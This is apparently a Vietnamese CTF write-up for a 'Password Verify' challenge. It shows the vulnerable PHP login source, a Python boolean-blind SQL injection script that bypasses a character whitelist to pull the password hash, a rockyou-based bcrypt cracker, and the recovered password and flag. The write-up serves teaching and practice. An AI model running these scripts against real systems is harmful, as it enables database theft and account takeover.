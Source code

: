 

## [Password Verify](https://ctf.viblo.asia/puzzles/password-verify-c4j7iy5q3hl)

![image-20200619125627174](images/image-20200619125627174.png)

```php
<?php
include "config.php";
    init($conn);
    function _verify($user_pass, $dbs_pass)
    {
        return password_verify(hash('sha256', $user_pass,true), $dbs_pass);
    }
    function check_input($input)
    {
        $charset = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!#$%&\()*+,-./:;<=>?@[]^_`{|}~";
        if (empty($input))
            return false;
        for ($i = 0 ; $i < strlen($input); $i++)
            if (!strpos($charset,$input[$i])) {
                echo $input[$i];
                return false;
            }
        return true;
    }
    if (isset($_POST["submit_login"]))
    {
        $username = $_POST["username"];
        $password = $_POST["password"];
        if(check_input($username) === false || check_input($password) ===false)
        {
            die("h4x0r detecteddddddddd");
        }
        $sql = "SELECT password,admin FROM users WHERE username = ?";
        $query = $conn->prepare($sql);
        $query->bind_param("s",$username);
        $query->execute();
        $query->store_result();
        if ($query->num_rows == 1)
        {
            $query->bind_result($c_pwd,$c_adm);
            $query->fetch();
            if( _verify($password,$c_pwd) )
                if($c_adm)
                    die("You are admin, here is your flag $flag");
                else
                    die("You must be admin to get flag");
        }
        die("H4x0r ?");
    }
    elseif(isset($_POST["search_user_exist"]))
    {
        $username = $_POST["username"];
        $name = $_POST["name"];
        if ( check_input($username) === false || check_input($name) === false)
        {
            die("h4x0r detected");
        }
        $sql = "SELECT id FROM users WHERE username='$username' or name='$name'";
        $result = $conn->query($sql);
        if ($result->num_rows > 0)
        {
            die("User exist");
        }
        die("No user");
    }
    else
    {
        highlight_file(__FILE__);
    }
?>
```

Đơn giản chỉ là dạng boolean-based blind sqli. Tuy nhiên phải bypass được hàm check_input(). Hàm này chỉ kiểm tra xem đầu vào có rỗng không và các kí tự ở đầu vào có nằm trong chuỗi whitelist không.

Mình đã viết 1 đoạn code tấn công sqli để lấy password và 1 đoạn để brute mật khẩu dạng hash thu thập được

```python
import requests
import string
import time

def splitNum(num):
	if '0' in `num`:
		if num<=100:
			return `num-1` + "+" + "1"
		elif num>100:
			#109=99+9+1 110=99+9+2 101=99+1+1
			newNum = `99`
			du = num-99
			if du%10==0:
				newNum += "+" + `1` + "+" +`du-1`
			else:
				newNum += "+" + `du`
			return newNum
	return `num`

def convert(str):
	newStr = 'CHAR('
	for i in str:
		newStr += splitNum(ord(i))
		if(i == str[len(str) - 1]):
			newStr += ")"
		else:
			newStr += ","
	return newStr	

def go(url,payload):
	r = requests.post(url,data=payload)
	return r.text
passwd = ''
while True:
	for i in (string.printable):
		payload = {'search_user_exist': '', 'username': '\\','name':"/**/OR/**/(SELECT/**/group_concat(password)/**/FROM/**/users)/**/LIKE/**/BINARY/**/{}#".format(convert(passwd+i+"%"))}
		ans = go("http://172.104.49.143:1322/",payload)
		# print passwd+i,ans,convert(passwd+i+"%")
		if "User exist" in ans:
			passwd+=i
			break
		else:
			print "."
			continue
	print passwd
  
  
```

Password dạng hash thu thập được: `$2y$10$31RlOClB9QKIlWkVxfvGEO2k5q9RICDR1wiXz7mCJa.z0/ASVcnc.`

```
<?php
ini_set('memory_limit', '-1');
ini_set('max_execution_time', '-1');
ini_set('max_input_time', '-1');

$hashed = '$2y$10$31RlOClB9QKIlWkVxfvGEO2k5q9RICDR1wiXz7mCJa.z0/ASVcnc.';
$handle = fopen("rockyou.txt", "r");
if ($handle) {
    while (($line = fgets($handle)) !== false) {
        if (password_verify(hash('sha256', trim($line), true), $hashed)) {
			echo $line;
			break;
	    }
    }
    fclose($handle);
} else {
    // error opening the file.
} 
```

Brute-force password trên ta được: Dakota

`Payload: submit_login=&username=admin&password=Dakota`

`Flag{!!!!_cTf_Ev3ry_Wh3r3_!!!!}`

